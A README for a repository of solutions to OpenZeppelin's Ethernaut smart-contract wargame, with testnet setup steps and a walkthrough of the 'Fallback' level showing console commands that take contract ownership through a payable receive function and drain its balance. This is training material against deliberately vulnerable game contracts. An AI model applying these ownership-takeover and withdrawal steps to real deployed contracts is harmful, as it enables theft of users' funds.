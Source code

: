 # Hackernaut 🧑‍🚀
Set of smart contracts for hacking the OpenZeppelin [Ethernaut game](https://ethernaut.openzeppelin.com/)
> **Note**: Not all the levels can be solved by creating a smart contract,
> this repository only contains the contracts that solve the levels 
> that **require** a Smart Contract to be solved.

### Getting Started

1. Create an [Alchemy](https://www.alchemy.com/) account.
2. Create a testing Rinkeby testnet account and feed it with some RinkebyETH using the [Alchemy Faucet](https://rinkebyfaucet.com/).
3. Create a `.env` file on the root folder containing the following variables

```shell
VICTIM_ADDRESS= # Address of the current contract you want to hack
ALCHEMY_API_KEY= # Your Alchemy API Key
RINKEBY_PRIVATE_KEY= # Private key from the Rinkeby testnet account
```

### Scripts
Before hacking each level you must setup the `VICTIM_ADDRESS` env variable previously mentioned. Then, you must run the yarn deploy script according to the level:

```shell
yarn deploy:<level_name>
```
After this, you must harcode the contract address in the respective script by overriding the `contractAddress` variable. Once done, run the following:

```shell
yarn start:<level_name>
```

Happy hacking! 😄

### Solutions

#### 1. Hello Ethernaut
Just follow the steps and you'll get there.

#### 2. Fallback
This level requires 2 steps to complete as described:

>You will beat this level if
>1. you claim ownership of the contract
>2. you reduce its balance to 0

##### Claiming the ownership
The trick here is to use the fallback `receive` function to get the ownership of the contract.

```sol
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```
In order to get there, we must statisfy 2 conditions: `msg.value` must be greater than zero and our account must have been contributed.

So before calling the fallback `receive` function, we need to make a contribution to the contract. We can do so as follows:

```js
  await contract.contribute({ value: 1 });
```
You can also check that the contribution was successful by calling the following line

```js
await contract.contributions(player).then(Number)
```
if the number is greater than zero, then you did it.

Now we can claim the ownership of the contract calling the fallback `receive` function. In order to call fallback payable functions, we just have to send a regular transaction to the contract address as follows:

```js
await contract.sendTransaction({ value: 1 })
```
Now if the transaction was successful, we must be the new owners of this contract lets check that.

```js
await contract.owner().then(owner => owner === player)
```
##### Reducing the balance to 0
The way to reduce the balance to 0 is by using the `withdraw` function, which sends all the current balance to the owner.

```sol
  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }
```

We are the owners of the contract, let's take those coins!

```js
await contract.withdraw()
```

